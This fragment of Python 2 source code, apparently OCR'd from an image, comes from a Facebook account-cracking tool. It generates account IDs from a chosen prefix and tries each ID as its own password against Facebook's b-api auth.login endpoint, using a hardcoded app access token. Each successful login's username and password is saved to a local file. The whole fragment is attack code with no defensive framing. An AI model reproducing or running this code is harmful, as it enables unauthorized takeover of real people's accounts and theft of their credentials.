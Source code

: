         except IOError:

            print ("[!] File Not Found")

            raw_input("\n[ Back ]")

            blackmafiax()

    elif peak =='0':

        login()

    else:

        print '[!] Fill In Correctly'

        action()

    print 50* '\033[1;94m-'

    xxx = str(len(id))

    jalan ('\033[1;92m[+] Total ids number: '+xxx)

    jalan ('\033[1;92m[+] Code you choose: '+c)

    jalan ("\033[1;93m[+] Wait A While Start Cracking...")

    jalan ("\033[1;92m[+] To Stop Process Press Ctrl+z")

    print 50* '\033[1;97m-'

    def main(arg):

        global cpb,oks

        user = arg

        try:

            os.mkdir('save')

        except OSError:

            pass

        try:

            pass1 = user

            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

            q = json.load(data)

            if 'access_token' in q:

                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass1                                       

                okb = open('save/Checkpoint.txt', 'a')

                okb.write(k+c+user+pass1+'\n')

                okb.close()
